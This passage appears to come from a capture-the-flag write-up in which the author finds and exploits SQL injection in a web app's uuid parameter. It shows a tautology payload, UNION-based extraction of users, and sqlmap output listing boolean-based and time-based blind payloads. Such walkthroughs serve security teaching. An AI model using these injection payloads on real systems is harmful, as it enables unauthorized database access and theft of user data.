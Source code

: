 ![image-20210517114220767](https://0xdfimages.gitlab.io/img/image-20210517114220767.png)

The page also crashes when I change one character in the UUID or set it to 1.
Basically, I think that anything that’s not in the DB causes a crash. So I’ll
try `http://127.0.0.1:5000/?uuid=%27%20or%201=1--%20-`. This query is based on
a guess that the query looks like:

    
    
    select * from users where uuid = '{uuid}';
    

This input would make that into:

    
    
    select * from users where uuid = '' or 1=1-- -';
    

Not only does the page return, but there’s a different user, chiv. That looks
a lot like SQL injection.

I can check for `UNION` injection, and it works with just one column:

![image-20210517120115302](https://0xdfimages.gitlab.io/img/image-20210517120115302.png)

#### Manual SQLI

If I can guess that the table is likely named users, and there’s probably a
uuid column, I can list the UUIDs in the DB:

[![image-20210517120328824](https://0xdfimages.gitlab.io/img/image-20210517120328824.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20210517120328824.png)

I can list the users too - my first guess of username failed, but name worked:

[![image-20210517120410125](https://0xdfimages.gitlab.io/img/image-20210517120410125.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20210517120410125.png)

Most of those are me, but the first one is chiv.

#### sqlmap

Alternatively, now that I have the proxy set up, I can just point `sqlmap` at
it:

    
    
    oxdf@parrot$ sqlmap -u 'http://127.0.0.1:5000/?uuid=1e05713d-9b4e-4d2c-938b-c5673866ee3e' -p uuid
    ...[snip]...                            
    ---                                                                  
    Parameter: uuid (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: uuid=129f60ea-30cf-4065-afb9-6be45ad38b73' AND 1681=1681 AND 'ZIDK'='ZIDK                                                                 
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: uuid=129f60ea-30cf-4065-afb9-6be45ad38b73' AND (SELECT 9112 FROM (SELECT(SLEEP(5)))TFNV) AND 'TgiY'='TgiY                                 
    